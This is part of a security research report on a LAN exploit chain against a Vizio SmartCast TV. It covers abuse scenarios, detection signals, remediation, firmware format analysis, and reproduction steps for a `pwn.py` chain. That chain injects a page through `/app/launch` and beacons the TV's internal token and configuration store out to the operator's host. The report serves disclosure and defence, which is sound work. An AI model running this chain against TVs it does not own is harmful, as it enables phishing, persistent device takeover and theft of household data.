Items 1, 3, 4, 5, and 6 are reproduced by `pwn.py`. Item 10 is reproduced by `castv2_enum.py` + `cast_probe.py`. Items 7 and 8 were verified interactively; the console and LOKI tooling are not packaged as one-shot scripts.

---

## 15. Abuse scenarios

All scenarios require LAN adjacency and, except for cast-only attacks, a pairing token.

### S1. Display takeover and phishing

Cast port 8009 has no authentication. Anyone on the network can push content to the screen. Add the launch primitive and the attacker can render a page in the system modal layer, which looks like a native system dialog rather than a cast session. A fake "your bill is due" or "scan this QR to finish setup" prompt on a hotel TV is a materially better phishing surface than a cast overlay.

### S2. Persistent configuration implant

One pairing (or one reused token) plus the store write is persistent configuration control. An attacker can:

- Re-enable the internal API console.
- Flip viewing-data consent flags.
- Point URL-bearing settings at attacker infrastructure.
- Preset `RemoteDebuggingPort` so the next webview spawn exposes CDP (write verified; activation unverified).
- Add or alter keys that the system UI reads at startup.

### S3. Profiling and tracking

The bridge returns ESN, DSN, a stable `dhash`, MAC, SSID, timezone, model, and firmware. `dhash` survives network changes. The external API adds IP-derived geolocation. This is a household fingerprint, not a per-session cookie.

### S4. Pairing-PIN social engineering

The injected page runs in the same modal layer used for system prompts, including the pairing UI. It can draw a convincing "enter your PIN to finish setup" prompt. Four digits later, the attacker holds a bearer token valid until factory reset. This converts a physical-presence gate into a social-engineering one. It is the scenario that most changes the risk assessment.

### S5. LAN pivot and staging

The TV is an always-on Linux device with a browser and, if placed on a trusted VLAN, a route into that VLAN. `app/launch` makes it fetch attacker-chosen content on demand, from a network segment that is rarely instrumented. It is a useful staging point and an egress path.

### S6. Tooling foothold via CDP

The `RemoteDebuggingPort` store key was written but did not open a port on the running webview. If a respawn applies it, CDP gives the attacker a browser-grade debugging channel into system UI pages. This remains unverified and is listed as an open problem.

None of these require chaining additional memory-corruption bugs. Each follows from primitives in the capability matrix.

---

## 16. Detection opportunities

The external API does not expose an audit log that was found. Detection therefore has to come from network telemetry, store diffs, or endpoint instrumentation.

**Highest-signal API event:** a `PUT /app/launch` with all of:

- `NAME_SPACE = 4`
- `APP_ID = "3001"`
- `MESSAGE` that is not `http://127.0.0.1:12345/scfs/...`

In the observed system-modal flow, the stock `MESSAGE` is a local `scfs` URL. A non-loopback URL in that field is anomalous. A LAN URL on a high port immediately after a launch call is a strong secondary signal.

**Network:**

- The TV initiating an HTTP GET to a LAN host on a non-service port shortly after a launch call.
- Repeated TV requests to one LAN host with cache-busting query strings.
- TV egress to `127.0.0.1` is invisible on the wire. Host-based telemetry is needed to observe `/app/get_auth_token` hits.
- Cast `LAUNCH` frames from unexpected LAN peers on 8009. Cast is unauthenticated by design, so baseline the source addresses.

**Store:**

- New keys outside known namespaces.
- Changes to `ApplicationFramework:*` or `AppConfigs:*`.
- Values containing URLs that point at private LAN addresses.
- `RemoteDebuggingPort` becoming non-zero.
- Any write to `AppConfigs:CL:ApiTestApp:allowInternalMode`.

**Endpoint-side instrumentation (if the vendor adds it):**

- Log the `MESSAGE` value, caller identity, and source address for `/app/launch`.
- Alarm when app 3001 loads a non-`scfs` origin.
- Log every `/app/get_auth_token` caller and require it to present a native-app identity.
- Log store writes with old/new value and caller.

---

## 17. Remediation

### 17.1 Product fixes, in order of impact

| Priority | Control | Why |
|---|---|---|
| P0 | Allowlist `MESSAGE` for `NS=4`/`APP_ID=3001` to `http://127.0.0.1:12345/scfs/` (exact scheme, host, port, path prefix). Reject everything else. | This ends the chain at step 1 |
| P0 | Authenticate `/app/get_auth_token`. Bind internal API access to a native app identity, not to "source address is loopback". | Removes the pivot even if a URL sink is found later |
| P0 | Add authorization and schema validation to `/app/store/set`. Reject unknown keys; make `ApplicationFramework:*` and `AppConfigs:*` root/owner-only; validate types and lengths; audit writes. | Removes the persistence primitive |
| P1 | Remove wildcard CORS from `scfs` and serve internal assets without cross-origin read access. Add a restrictive CSP. | Stops injected pages from reading system UI source and the SDK |
| P1 | Ship the API test console only in engineering builds. Gate it behind a physical mechanism (serial console, hardware switch), not a URL parameter and a store flag. | Removes a ready-made internal-API GUI |
| P1 | Verify LOKI bundle signatures against the manifest SHA-256s and an offline trust anchor. Do not treat a filename SHA-1 as integrity. | Closes the bundle-planting path |
| P2 | Show a user-visible origin indicator when `app/launch` loads a non-stock URL, and require confirmation for non-`scfs` content. | Gives the user a chance to reject the launch |
| P2 | Harden Chromium settings: disable remote debugging in production, strip debug flags from the store, validate `chromiumSettings` at apply time. | Prevents CDP footholds |
| P2 | If not already present, rate-limit pairing attempts and expire pairing tokens on a schedule or on user action. | Reduces token-theft value |

### 17.2 Operator mitigations

Until a patch exists:

- Put the TV on a dedicated VLAN or guest network with no route to trusted LAN segments.
- Block inbound TCP/7345 from untrusted hosts. Block cast (8009/8008) if it is not used.
- Block TV egress to LAN addresses other than the media servers it legitimately needs. This also breaks the beacon/agent path.
- Do not pair the TV with devices you do not control. Treat `.tv_auth` and `.tvapp_token` as secrets.
- Factory-reset before selling, returning, or moving the TV. The pairing token survives a reboot.
- If the TV shows an unexpected prompt asking for a pairing PIN or a setup step, do not enter the PIN. Power-cycle and investigate.
- Apply firmware updates; none of these issues had a confirmed fix at the time of writing.

---

## 18. Reproduction and tooling

### 18.1 Prerequisites

- A TV you own, on a network you control.
- Python 3.10+ for `tvapp/` (`run_tv.sh doctor` enforces this); `pwn.py` itself is stdlib-only and runs on Python 3.7+.
- `curl`; `node` only for the JavaScript syntax checks in `test.sh`.
- A host IP reachable from the TV on the chosen port (default `8099`).
- The pairing PIN visible on screen for the first run.

Set the environment:

```bash
export TV_IP=192.168.0.116       # TV
export MY_IP=192.168.0.69        # this machine, reachable by the TV
export PORT=8099                 # must be free
```

### 18.2 Pair once, or reuse a token

```bash
python3 pwn.py --pair
# PIN shown on TV: 1234
# paired; token: <token> (export PAIR_TOKEN=... to reuse)

export PAIR_TOKEN=<token>
```

`pwn.py` stores nothing by itself. The TV app stores its token in `.tvapp_token` (mode 600, gitignored).

### 18.3 Run the chain

```bash
PAIR_TOKEN=... python3 pwn.py
```

What happens:

1. A temporary directory is populated with `a.html`, the TV-side agent.
2. A threaded HTTP server binds `0.0.0.0:PORT` (reached by the TV as `MY_IP:PORT`) and logs beacon requests.
3. `PUT /app/launch` sends `MESSAGE=http://$MY_IP:$PORT/a.html?v=<unix-time>`, `NAME_SPACE=4`, `APP_ID=3001`.
4. The TV loads the page. The agent beacons `js=exec-ok`, fetches the internal token, dumps the configured store keys, writes `OMPPwnMarker2=<timestamp>`, reads it back, and beacons `done`.
5. After roughly 25 seconds, the script restores the home screen with `NS=4`, `APP_ID=1`, `MESSAGE={"app":"home","bundle":"bundles/home"}` and shuts the server down.

Expected output shape:

```text
launch: {"STATUS":{"RESULT":"SUCCESS"}...}
agent running on TV; beacons:
[TV] ?t=js&d=exec-ok
[TV] ?t=token&d=<internal-token>
[TV] ?t=store.all&d=…
[TV] ?t=write&d={"STATUS":{"RESULT":"SUCCESS"}...}
[TV] ?t=verify&d=…
[TV] ?t=done&d=ok
```

Beacon payloads are truncated to 2,700 characters per request in the agent. The keys dumped and written are the `keys` and `write` variables at the top of `pwn.py`'s `__main__` block. The server must be able to bind `0.0.0.0:$PORT`; if 8099 is in use, stop the other process or change `PORT`.

### 18.4 Control-API helper

```bash
AUTH=<pairing token> ./tvapi.sh info       # GET /system/capabilities
AUTH=<pairing token> ./tvapi.sh location   # GET /system/dynamic/iptolocation
AUTH=<pairing token> ./tvapi.sh raw /app/current
./tvapi.sh pair                            # interactive pairing
```

The TV IP is `TV` (default `192.168.0.116`), the token is `AUTH`.

### 18.5 Discovery

```bash
python3 recon.py            # SSDP discovery, then port/API probes
python3 recon.py <TV_IP>
```

`recon.py` performs SSDP discovery, scans the known legacy and current ports, probes `/install`, and prints the 7345 `/install` status. It is deliberately lightweight and stdlib-only.

### 18.6 Cast

```bash
python3 castv2_enum.py      # edit TV at the top of the file if needed
python3 cast_probe.py       # tries a candidate appId list and logs responses
```

Both hardcode `192.168.0.116:8009`; edit the `TV` constant to retarget. `cast_probe.py` reuses the protobuf helpers from `castv2_enum.py`.

### 18.7 TV app built on the same primitive

`tvapp/` is an HLS player and site browser injected through the same modal launch. It is also a useful test harness for remote input and loopback behavior.

```bash
./run_tv.sh start          # serve, pair if needed, launch on the TV
./run_tv.sh status         # health, cache, search, TV reachability
./run_tv.sh doctor         # Python/port/health/TV/token checks
./run_tv.sh logs           # tail the server log
./test.sh                  # unit tests, JS syntax checks, module compilation
```

App-specific details, controls, ad-blocking internals, playback modes, and security notes are in [`tvapp/README.md`](tvapp/README.md) and [`SECURITY.md`](SECURITY.md). The app binds `0.0.0.0` for TV and phone access; use `REMOTE_TOKEN` on shared networks, and keep `TVAPP_ALLOW_PRIVATE_UPSTREAM`/`TVAPP_ALLOWED_HOSTS` unset outside debugging.

---

## 19. Repository map

```text
.
├── README.md                     this technical report
├── findings.md                   raw session log: every request, response, and dead end
├── SECURITY.md                   app-server security notes and escape hatches
├── CHANGELOG.md                  recent app work
├── LICENSE                       MIT
├── .github/workflows/tests.yml   CI: Python tests, JS syntax, compilation
│
├── pwn.py                        end-to-end repro: pair/reuse token → launch →
│                                 JS-exec proof → internal token → store dump →
│                                 store write → home restore. Verified ×3
├── tvapi.sh                      curl helper for the external API
├── recon.py                      SSDP discovery + port/API mapper
├── castv2_enum.py                minimal castv2 client: hand-rolled protobuf, TLS
├── cast_probe.py                 cast receiver LAUNCH prober
├── viziown.sh                    the 2021 /install technique, kept for history;
│                                 dead on this build
│
├── tvapp/                        HLS/site app injected through NS=4/3001
│   ├── server.py                 HTTP app, scrape API, proxy, TV launch/pair
│   ├── crackstreams.py           site scraper
│   ├── adblock.py                blocklist, HTML/CSS rewriting, injected runtime
│   ├── search.py, resolve.py     search/indexing and stream resolution
│   ├── state.py, models.py       persisted state and data models
│   ├── hls.py, timeparse.py      playlist and time helpers
│   ├── netguard.py, sources.py   upstream validation and source registry
│   ├── static/                   TV UI, phone remote, local hls.js player
│   ├── tests/ + ../test.sh       stdlib suite and fixtures
│   └── README.md + SMOKE.md      architecture, operation, manual checks
│
├── payloads/README.md            busybox not vendored (GPL); fetch your own
├── docs/README.md                third-party SmartCast API reference links
│
├── extracted/                    VIZIOS internals pulled off the device
│   ├── companion-lib.js          VIZIO JS bridge/transport SDK, 299,679 B
│   ├── apiTestApp.js             hidden API console JS, 323,471 B
│   └── uml-bundle.js             the 3001 modal bundle, 18,173 B
│
├── firmware/*.utv                official OTA image; format in Appendix A
│                                 (too large for git; re-download from CDN)
├── run_tv.sh                     app lifecycle wrapper
└── test.sh                       one-command verification
```

Untracked runtime files: `tvapp/state.json`, `tvapp/search_index.json`, `tvapp/server.log`, `tvapp/.server.pid`, `.tvapp_token`, `.tv_auth`. All are gitignored.

---

## 20. Artifact integrity

Use these to confirm that a locally pulled artifact matches the analyzed copy:

| File | Size (bytes) | SHA-256 (first 16) | Full SHA-256 |
|---|---:|---|---|
| `extracted/companion-lib.js` | 299,679 | `f946f440d9c3baf5` | `f946f440d9c3baf57121e364677d636bb559623457441b0ff3f41f061b610ef3` |
| `extracted/apiTestApp.js` | 323,471 | `6fcc80867310a0fb` | `6fcc80867310a0fbc468bc7b514eb4c2b5f8527fc378d704ce7c6fd7d38c29fc` |
| `extracted/uml-bundle.js` | 18,173 | `6e9fac2c686f493d` | `6e9fac2c686f493d99c7bc4a792515fdeaf309156ec66fad216022c59a31e35d` |
| `firmware/mg1359-86.920.9.3-2F.utv` | 533,808,696 | `ea0b66768ee6ba8a` | `ea0b66768ee6ba8a4ca06e0aaf7a3b2722b2ec7fa0c92c35d1187443938cc0c7` |

The fetched `apiTestApp.html` is 374,595 bytes as served; the 323,471-byte file is the extracted script. The firmware image is gitignored; hashes are provided for re-download verification.

---

## Appendix A: OTA firmware container format

The official `86.920.9.3-2F` image was pulled from Vizio's CDN to evaluate the update channel as a path to custom firmware. It is not a shortcut to root, but the container was reversed completely enough to document.

### A.1 Layout

```text
offset 0     : u32 BE  jwt_len (= 7348)
offset 4     : JWT, RS512, base64url(header).(payload).(signature)
offset 4+L   : AES-encrypted payload, chunked:
               101 × (5,242,880 B data + 32 B per-chunk header)
               + 4,267,232 B tail
```

Total on disk: 533,808,696 bytes. The 4-byte length plus the 7,348-byte JWT leaves 533,801,344 bytes of encrypted payload, consistent with 101 chunks of 5 MiB plus a remainder and per-chunk headers.

### A.2 JWT claims

| Claim | Value / meaning |
|---|---|
| `sub` | `86.920.9.3-2F` |
| `aud` | Six upgradeable-from versions |
| `blk` | `5242880` — AES chunk size |
| `siz` | `533799712` — size field for the payload |
| `upi` | `93073` — update package identifier |
| `upf` | `mt5586_upgrade_image_ota.pkg` — internal package name |
| `hsh` | SHA-256 of the plaintext payload |
| `key` | 256 bytes — RSA-2048-wrapped AES content key |
| `crt` / `int` | Qterics leaf + intermediate, CN `updates.support.supportview.com` |
| `man` | `true` |
| Chain | Qterics Production CA-1 ← Qterics Root CA, valid to 2038 |

The JWT signature verifies against the embedded certificate chain:

```bash
openssl x509 -in leaf.pem -pubkey -noout > leaf.pub
openssl dgst -sha512 -verify leaf.pub -signature sig.bin signed.bin
# signed.bin = base64url(header).base64url(payload)
# sig.bin    = decoded JWT signature
# Verified OK
```

The certificate chain and chunking are fully mapped. The payload has no cleartext filesystem magics; `binwalk` across the 533 MB image finds only noise, which is consistent with AES encryption of the payload.

### A.3 Why decryption stops here

The content key is RSA-wrapped with the device's public key. Unwrapping it requires the private half, which lives in the on-device updater. That key was not extracted:

- No root console was obtained.
- No flash dump or UART console work was performed.
- The update path was not attacked beyond downloading and parsing the image.

With the private key, the container is a packaging exercise: unwrap the AES key, decrypt the chunks, verify against `hsh`, and rebuild. Without it, the chain is cryptographically out of reach. The update path is not a shortcut to custom firmware.

---

## Appendix B: methodology, timeline, and open problems

### B.1 Method

- Discovery: nmap, SSDP, mDNS TXT records, router client lists.
- API mapping: 200-JSON vs 500-`Unhandled Exception` route oracle; paired token for the external API.
- Firmware: CDN download, JWT parse, OpenSSL signature verification, binwalk, AES chunk layout.
- Traffic analysis: arpspoof + iptables REDIRECT + dnsmasq to observe cloud endpoints; mitmproxy for HTTP.
- Web layer: bundle extraction over HTTP beacons, manifest review, companion SDK deobfuscation, direct page reads through `scfs`.
- Cast: hand-rolled castv2/protobuf client, no third-party cast library.

No commercial tooling, no hardware implants, one patient TV.

### B.2 Timeline

| When | What |
|---|---|
| Session 1 | Recon, port map, pairing, API fingerprinting. ViziOwn `/install` confirmed dead: ten-plus request shapes, all 500 |
| Session 2 | Firmware image downloaded; `.utv` format reversed; JWT signature verified. MITM rig mapped cloud endpoints (osu.vudip.vizio.com, Kinesis us-west-2, IoT us-east-1, fflags.lokistore.vzolab.com, mtalk.google.com, supportview.com). Confirmed the 2021 technique is gone |
| Session 3 | Namespace sweep → the 3001 URL-launch chain. Companion library extracted; internal services mapped; tokenless token endpoint; persistent store writes; hidden console unlocked; LOKI protocol mapped. End-to-end proof ×3 |
| Follow-on | `tvapp/` built on the launch primitive: HLS player, scrape API, proxy, ad blocking, phone remote. Confirmed the modal webview delivers ordinary DOM key events and that hls.js works on the TV Chromium |

### B.3 Open problems

- **Chromium remote debugging.** `RemoteDebuggingPort` is written but CDP did not come up on the running webview. A webview respawn is expected to apply it. An owner with a reboot window can confirm.
- **LOKI bundle planting.** Requires a writable path, the correct SHA-1 filename, and a valid `BundleRoot.xml`. The error messages in [§12](#12-finding-7-loki-internal-ui-bus) give the format. Not weaponized because the store write is already sufficient for persistence.
- **AirPlay.** Port 7000 enforces HAP pairing. The 2025 AirPlay research suggests memory-corruption work there could be productive; none was attempted.
- **`.utv` key extraction.** Requires root, a UART console, or a flash dump. This is the hardware path the webview chain does not provide.
- **UART.** The board is expected to expose a 3.3 V TTL console at 115200 8N1. Not accessed. It is the guaranteed physical path to the updater key.
- **Store reboot persistence.** Verify explicitly that a store write applied before power loss is still present after boot.
- **Full bridge method coverage.** About 200 methods are exposed. Only identity, power state, store, launch, and a few settings paths were exercised. The rest is unexplored attack surface.

---

## References

- exiva, `smartcast-api` — community SmartCast API reference (app IDs, menu CNAMEs, endpoint list): <https://github.com/exiva/smartcast-api>. Not vendored; see [`docs/README.md`](docs/README.md).
- ViziOwn, exploitee.rs, 2021 — the `/install` command-injection research this project started from. The script cites CVE-2021-27944; see `viziown.sh` for the exact technique and caveats.
- Vizio SmartCast pairing protocol — the documented flow implemented in `pwn.py`, `tvapi.sh`, and `tvapp/server.py`.
- Chromium 128 cast/Conjure stack — identified from the beacon User-Agent and the `scfs` manifest.

---

## Scope and ethics

This research was performed against a TV owned by the author, on a private network, with no third-party traffic captured or retained. The toolkit can take over a TV on the same LAN. Do not run it against devices you do not own. `pwn.py` restores the home screen when it finishes; it does not persist a payload by default, and the store keys it writes are harmless markers that can be removed with `PUT /app/store/set`.

If you are a vendor representative: open an issue and the full request/response transcripts, packet captures, and timeline can be provided for advisory coordination.
